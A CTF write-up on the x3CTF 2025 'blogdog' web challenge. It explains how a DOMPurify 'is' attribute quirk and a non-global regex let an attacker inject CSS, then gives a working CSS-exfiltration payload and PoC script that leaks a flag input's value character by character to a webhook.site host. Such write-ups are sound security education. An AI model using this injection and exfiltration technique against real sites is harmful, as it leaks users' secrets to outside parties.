 ```yaml
---
title: "x3CTF blogdog(web) Write up"
description: "A detailed write up of the CTF challenge blogdog from x3CTF 2025, involving xs-leak technique CSS exfiltration and interesting DOMPurify + browser quirks. "
date: "Jan 31 2025"
tags: ["write up", "ctf", "xs-leaks"]
---
```


### Introduction
~~Attracted by the prizes~~, I played the x3CTF (feat. mvm) with Black Bauhinia, solving a few web challenges. Of the challenges we solved, I enjoyed blogdog(a hard web) the most, and hence this write up.

### Challenge Code
```html=
<script type="text/javascript" nonce="za/WhVaozTMdihyuNF+2+w==">
	const SAMPLE_ARTICLE = "...";

	const input = document.getElementById("input");
	const output = document.getElementById("output");
	const flag = document.getElementById("flag");

	const purifyConfig = {
		ALLOWED_ATTR: [],
		ALLOWED_TAGS: ["a", "b", "i", "s", "p", "br", "div", "h1", "h2", "h3", "strike", "strong"],
		ALLOW_ARIA_ATTR: false,
		ALLOW_DATA_ATTR: false,
	}

	function loadHtml(html) {
		const sanitized = DOMPurify.sanitize(html.replace(/["'&]/g,''), purifyConfig).replace(/["'&]/,'');
		output.innerHTML = `<h2>Sanitized HTML</h2><div id="sanitized"><style nonce="za/WhVaozTMdihyuNF+2+w==">#sanitized:before { font-family: monospace; color: #224; content: "${sanitized.replace(/([\\/\n\r\f])/g,'\\$1')}" }</style></div><hr><h2>Rendered HTML</h2>${sanitized}<hr>`;
	}

	input.oninput = () => loadHtml(input.value);
	flag.oninput = () => localStorage.setItem("flag", flag.value);

	window.onload = () => {
		flag.setAttribute('value', localStorage.getItem("flag") ?? "x3c{fake_flag}")
		input.value = decodeURI(window.location.search).replace(/^\?/,'') || SAMPLE_ARTICLE;
		loadHtml(input.value);
	}
</script>
```

### Observations

After looking at the source code, we got the following clues:
1. It is likely a [XS-leak](https://xsleaks.dev/) attack, specifically a [CSS exfiltration attack](https://portswigger.net/research/blind-css-exfiltration)(due to the strict tag whitelist and user input in css)
2. The flag is stored in a HTML `<input>` tag, further confirming our assumption of this challenge being a CSS exfil one
3. The code injects user input into the content property of pseudo-elment `#sanitized:before`: 
```css
content: "${sanitized.replace(/([\\/\n\r\f])/g,'\\$1')}"
```

This means that if we were to somehow break out of the quotes `"`, then we can inject aribrary CSS injection.

What do we do to figure out how to escape the string? Fuzzing, of course!

### Doing the challenge

After some fuzzing, we found that the form feed character, `%0c` is not included in the regex, and helps escape the string.

If you tried to test that yourself, you might have found that it doesn't actually work, the regex actually includes `\f`, which is the form feed character!

That's because the author forgot to update the challenge attachments, and after opening a ticket, we figured out that was exactly the case.

So back to square one, it doesn't seem like there are more characters which can break the string and are not blacklisted... Back to reading the source code...

```js
const sanitized = DOMPurify.sanitize(html.replace(/["'&]/g,''), purifyConfig).replace(/["'&]/,'');
```

After feeling extremely puzzled for a while, we found that the regex in the second replace function lacked the global flag, meaning it would only replace the first match, but not any other occurences after that.

This meant that if the output from DOMPurify contained two double quotes `"`, only the first one would be removed. But how do we get DOMPurify to output two double quotes, if the first replacement function prohibits that, AND the `ALLOWED_ATTR` array is set to empty?

Looking at the recent fixes for DOMPurify, we see that there is a patch which includes a comment saying that `"is"` attributes may be unremovable! This means that due to how DOMPurify works, making every empty attribute be a string instead of boolean, it would set the `is` attribute's value to `is=""`, providing the double quotes we need.
*[psst, I recently found a DOMPurify bypass in version 3.2.3, go check that out](/posts/dompurify-323-bypass/)*
```diff
+     // We void attribute values for unremovable "is" attributes
+     if (name === 'is') {
```

We can test that out with `?<div%20is>}%20body{%20background:%20red;}`, and the css does indeed apply.

```css
/* This is what is rendered on the browser */
#sanitized:before { 
    font-family: monospace; 
    color: #224; 
    content: "<div is=">} body{ background: red;}<\/div>" 
}
```

This means that now we can inject arbitrary CSS, and just have to craft a payload for CSS exfiltration. However, note that the following CSP is applied in the `index.js` file, preventing CSS exfiltration via the `background` source.

```js
res.setHeader('Content-Security-Policy', `script-src 'self' 'nonce-${nonce}'; style-src 'nonce-${nonce}'; object-src 'none'; img-src 'none';`);
```

If you do a little bit of googling, you will find that for CSS exfiltration, we usually either exfiltrate via background urls or font urls, since background sources are not permitted by the csp, we have to use `font-src`.

*[Jorian discovered a super interesting way of performing CSS exfiltration during the CTF, here is the write up](https://jorianwoltjer.com/blog/p/ctf/x3ctf-blogdog-new-css-injection-xs-leak)*

After some tinkering, I ended up with this function to leak the next character of the flag, given a prefix.
```js
function gen(prefix) {
  return `
                  @font-face {
 font-family: leak-${prefix[prefix.length - 1]};
 src: url(${hook}?q=${prefix[prefix.length - 1]});
}

    input[name="${name}"][value*="${prefix}"] {
              font-family: leak-${prefix[prefix.length - 1]};
            }`;
}
```

Careful readers may notice that the code actually removes the double quotes in the above code, moreover that makes us unable to use the `{` and `}` character because of how CSS syntax works.

Well does that mean we can't construct the prefix of `x3c{`, and can't get the flag? Well, not necessarily. We can guess from the middle or some part inside the flag, personally I decided to first look for the underscore `_` character, as it is one of the most commonly found characters in a CTF flag.

After getting the portion of the flag after the first underscore `_` character, we can actually modify the payload to exfiltrate the suffix instead of the prefix, and that is left as an exercise to the reader.

So this is the whole process for getting the flag.
1. Ensure a character of your choice is in the flag(by treating it as prefix), I will use `_` here
2. Leak the portion of flag after your chosen character --> `_****_****}`
3. Leak the portion of flag before your chosen character --> `{**_***_`
4. Combine the leaked portions to get `x3c{did_u_find_a_d0m9ur1fy_0d4y_0r_is_1t_ju57_4_51lly_br0w53r_qu1rk}`

### Thoughts
Overall, as someone who particularly enjoys these type of webs, it was a pretty fun challenge, and I recommend the reader to go try it for themselves. Though one piece of criticism is that the rate limit was set too high, at 1 request per minute, which was not helping given that the flag is 68 characters long.

### PoC
```js=
// This might not be fully functional
// I modified it multiple times during the contest
const hook = "https://webhook.site/...",
  name = "flag";

function gen(prefix) {
  return `
                  @font-face {
 font-family: leak-${prefix[prefix.length - 1]};
 src: url(${hook}?q=${prefix[prefix.length - 1]});
}

    input[name="${name}"][value*="${prefix}"] {
              font-family: leak-${prefix[prefix.length - 1]};
            }`;
}


// const upper_alpha = "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
const lower_alpha = "abcdefghijklmnopqrstuvwxyz";
const digits = "0123456789";
const symbols = "_";

const charset = lower_alpha + digits + symbols;
const prefix = "...",
  res = [];

for (let i = 0; i < charset.length; i++) {
  res.push(
    gen(prefix + charset[i])
      .replace(/\s+/g, " ")
      .trim()
  );
}

const payload = ("<div is>}" + res.join("\n")).replaceAll(" ", "%20");

const myHeaders = new Headers();
myHeaders.append("Content-Type", "application/x-www-form-urlencoded");

const urlencoded = new URLSearchParams();
urlencoded.append("content", "http://localhost:3000/?" + payload);

const requestOptions = {
  method: "POST",
  headers: myHeaders,
  body: urlencoded,
  redirect: "follow",
};

function f() {
  // auto re-fetch in case of rate limit
  fetch(
    "https://uuid.x3c.tf:1337/",
    requestOptions
  )
    .then((response) => response.text())
    .then((result) => {
      console.log(result);
      if (result.startsWith("Error")) {
        setTimeout(() => {
          f();
        }, 5000);
      }
    })
    .catch((error) => console.error(error));
}

f();
```